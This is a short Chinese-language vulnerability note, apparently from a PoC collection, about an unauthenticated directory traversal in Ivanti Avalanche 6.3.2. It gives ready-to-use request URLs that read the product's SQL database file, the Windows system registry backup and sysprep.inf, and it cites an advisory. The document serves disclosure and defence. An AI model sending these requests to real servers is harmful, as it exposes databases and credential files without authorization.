 # Ivanti Avalanche 目录遍历漏洞


Ivanti Avalanche是一种移动设备管理系统。Ivanti Avalanche中的一个漏洞允许未经身份验证的远程用户请求位于“ image”文件夹之外的文件。

影响版本：

Windows v6.3.2.3490 的 Avalanche Premise 6.3.2

PoC：


```
数据库读取：
https://EXAMPLE_IP:8443/AvalancheWeb/image?imageFilePath=C:/Program Files/Microsoft SQL Server/MSSQL11.SQLEXPRESS/MSSQL/DATA/Avalanche.mdf

其它：
https://EXAMPLE_IP:8443/AvalancheWeb/image?imageFilePath=C:/Windows/system32/config/system.sav
https://EXAMPLE_IP:8443/AvalancheWeb/image?imageFilePath=C:/sysprep/sysprep.inf

```

ref：

https://ssd-disclosure.com/ssd-advisory-ivanti-avalanche-directory-traversal/
